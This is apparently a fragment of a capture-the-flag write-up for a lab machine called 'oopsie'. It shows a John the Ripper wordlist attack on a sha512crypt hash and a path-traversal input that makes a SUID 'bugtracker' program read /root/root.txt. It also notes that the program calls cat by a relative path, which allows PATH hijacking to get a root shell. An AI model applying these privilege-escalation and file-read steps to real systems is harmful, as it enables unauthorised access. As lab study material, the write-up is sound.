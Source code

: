 ```bash
mysql:!:18284:0:99999:7:::
```

```bash
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:32:15 98.85% (ETA: 00:34:22) 0g/s 7332p/s 7332c/s 7332C/s 0165048131..0164614254
0g 0:00:32:35 DONE (2023-11-22 00:34) 0g/s 7335p/s 7335c/s 7335C/s !!!playboy!!!7..*7¡Vamos!
Session completed.
[x]
```

- leak root.txt flag (no root priv)

```bash
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../../../root/root.txt
---------------

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

### suid cat

- observe bugtracker bin file (file thisbin)

```bash
robert@oopsie:/$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: qwe
---------------

cat: /root/reports/qwe: No such file or directory
```

- /usr/bin/bugtracker = **cat** /root/reports/qwe (is a **relative** path) -> change **PATH** under robert let cat run shell as root
